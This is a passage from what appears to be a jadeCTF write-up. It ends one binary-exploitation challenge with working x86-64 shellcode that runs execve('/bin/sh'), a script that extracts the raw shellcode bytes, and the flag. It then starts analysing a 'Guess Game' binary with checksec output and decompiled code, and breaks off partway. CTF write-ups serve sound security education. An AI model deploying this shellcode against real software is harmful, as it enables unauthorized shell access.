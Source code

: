 ```py
p.interactive()
```
**shellcode.s**
```s
.global _start
_start:
.intel_syntax noprefix
    xor rdx, rdx
    xor rsi, rsi
    lea rdi, [rip+binsh]
    mov rax, 59
    syscall
    binsh:
        .string "/bin/sh"
```
**shellcode_compile.sh**
```bash
#!/bin/bash
gcc -nostdlib -static "$1" -o shellcode
objcopy --dump-section .text=shellcode.bin shellcode
rm shellcode
```

FLAG: `jadeCTF{sh3llc0ding_but_w1th_4_tw1st}`

# Guess Game
First let's run checksec on the binary:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
Now, let's start analyzing the binary on Ghidra. First, we have the `main()` function:
```c
undefined8 main(void)
{
  uint local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,1,0);
  fill_secret_buffer();
  write(2,"Welcome to my game, choose any number between 1-10\n",0x33);
  write(2,"Enter a number: ",0x10);
  __isoc99_scanf(&DAT_00400f6d,&local_c);
  getchar();
  if (((int)local_c < 0xb) && (0 < (int)local_c)) {
    if ((local_c & 1) == 0) {
      even_option();
    }
    else {
      odd_option();
    }
    write(2,"Bye bye\n",8);
    return 0;
  }
  write(2,"Wrong number entered\n",0x15);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
It calls the `fill_secret_buffer()` function first.
```c
```